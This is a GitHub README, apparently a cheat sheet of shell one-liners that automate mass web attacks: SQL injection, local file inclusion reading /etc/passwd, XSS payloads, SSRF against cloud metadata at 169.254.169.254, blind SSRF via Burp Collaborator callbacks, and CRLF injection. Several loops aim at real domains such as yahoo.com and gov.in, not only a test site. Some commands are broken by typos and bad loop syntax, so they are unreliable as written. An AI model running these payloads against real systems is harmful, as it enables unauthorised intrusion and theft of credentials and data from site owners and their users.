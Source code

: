# WEBAPPLICATION-ATTACKS-SCRIPT

AUTOMATE WEB APPLICATION ATTACKS WITH SCRIPTS

**Error based sqli**

Target: http://TARGET.com/artists.php?artist=1

**Command:**
curl -sk "http://testphp.vulnweb.com/artists.php?artist=1" | grep -q "WHAT KIND for error for sql injection"

**Automation:**
gau -subs testphp.vulnweb.com | gf sqli | httpx | qsreplace "1'" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo " $(tput setaf 1)SQLI VULNERABLE $(tput setaf 3) %"'
gau -subs testphp.vulnweb.com | grep "=" | httpx -silent | qsreplace "1'" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo " $(tput setaf 1)SQLI VULNERABLE $(tput setaf 3) {}"' 

**FULL automation:**
for sqli $(cat sqliyaload.txt) ;do for url in $(gau -subs targets.txt | grep "=" | gf sqli | httpx | qsrepalce "$sqli") ;do echo "$url" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo "Error based SQLI {}"' ;done 


**Time based:**
payload used: ' or sleep(5)#

Normal testing:
time curl -s -I "http://testphp.vulnweb.com/artists.php?artist=1"
time curl -s -I "http://testphp.vulnweb.com/artists.php?artist=1 or sleep(10)#" 
 
 
**Automation:**
for sqli in $(cat sqlitime.txt) ;do for url in $(gau -subs yahoo.com) ;do  echo "$url" | qsreplace "$sqli"| parallel -j 10 'time curl -s -I "%"' ;print "timebase sqli without payload" ;echo "$url" | parallel -j 10 'time curl -s -I "%"' ;done ;done


**LFI:**

cat /payloads/pathtravers.txt | parallel -j 6 'curl -sk "http://testphp.vulnweb.com/showimage.php?file={}" 2>&1 | grep -q "root:x" && echo "VULN! LFI {}"'

for lfi in $(cat /payloads/pathtravers.txt ); do for  url  in $(gau -subs yahoo.com | gf lfi | qsreplace "$lfi"); do echo "urls" | parallel  -j 10 'curl -s "{}" 2>&1 | grep -q "root:x" && echo "LFI VULN! {}"' ; done ; done


**XSS:**

grep "?" | sort -u |  grep "=" | qsreplace "<img src=x onerror=alert(1)>" | xargs -I % sh -c 'curl -sk "%"   2>&1 | grep -q "alert(1)" --color && echo " $(tput setaf 1)XSS VULNERABLE $(tput setaf 3) %"'  --> automation

cat testparam.txt | parallel -j 5  echo "https://xss-game.appspot.com/level1/frame?{}" | qsreplace "<img src=x onerror=alert(1)>" | xargs -I % sh -c 'curl -sk "%"   2>&1 | grep -q "alert(1)" --color && echo " $(tput setaf 2)XSS VUL $(tput setaf 1 setab 7) %"'

for xss in $(cat /payloads/xss.txt ); do for  url  in $(gau -subs yahoo.com | gf lfi | qsreplace "$xss"); do echo "urls" | parallel  -j 10 'curl -s "{}" 2>&1 | grep -q "aler(1)" && echo "LFI VULN! {}"' ; done ; done

**SSRF:**
gau -subs testphp.vulnweb.com | grep "=" | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I% sh -c 'curl -sk "%" 2>&1 | grep "compute.internal" && echo " ssrf aws metadata %"'

**BLIND ssrf:**

gau -subs testphp.vulnweb.com | gf ssrf | qsreplace "http://burpcollaborator.net" | httpx -silent -proxy http://127.0.0.1:8080

subfinder -d yahoo.com -silent | httpx -silent -proxy http://127.0.0.1:8080 -H "Referer: http://burpcollaborator.net"




Command:

curl -sk "http://testphp.vulnweb.com/showimage.php?file=http://burpcollab.net" |httpx

**Automation:**
gau -subs testphp.vulnweb.com | grep "=" | httpx -silent | qsreplace "http://burpcollab.net" | xargs -I{} sh -c 'curl -sk "{}"

**FULL automation:**
for burpcoll $(cat burppayaload.txt) ;do for url in $(gau -subs targets.txt | grep "=" | gf ssrf | httpx | qsrepalce "$burpcoll") ;do echo "$url" | httpx -silent  ;done 

gau -subs gov.in | grep "=" | gf ssrf | httpx -silent | qsreplace "http://burpcollab.net" | parallel -j 30 curl -sk "{}"

**Blind SSRF by header:**
Target:
testphp.vulnweb.com

Command:
**FUll Automation:**
subfinder -d testphp.vulnweb.com -silent | httpx -H "Referer: http://burpcollab.net" 

**SSRF to access metadata**
Automation;
gau -subs testphp.vulnweb.com | grep "=" | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I% sh -c 'curl -sk "%" 2>&1 | grep "compute.internal" && echo " ssrf aws metadata %"'

**CRLF**
for crlf in $(cat crlfpayload.txt); do for url in $(gautest.com | grep "=" | qsreplace "$crlf"); do echo $url| xargs -I@ sh -c 'curl -sk -I "@" 2>&1 | grep -q "Set-Cookie:%20test=test" && echo "CRLF VUL @"' ;done ;done

**AUTOMATE BROKEN LINK HIJACKING****

INSTALL blc

subfinder -dL -silent | httpx -silent | parllel -j 10 blc {} | grep "broken"

for crlf in $(cat crlfpayload.txt); do for url in $(gautest.com | grep "=" | qsreplace "$crlf"); do echo $url| xargs -I@ sh -c 'curl -sk -I "@" 2>&1 | grep -q "Set-Cookie:%20test=test" && echo "CRLF VUL @"' ;done ;done

echo "http://testme.yahoo.com?qtest=hell" | qsreplace "%0dSet-Cookie:test=test" | xargs -I% sh -c 'curl -sk -I % | grep "test=test"'




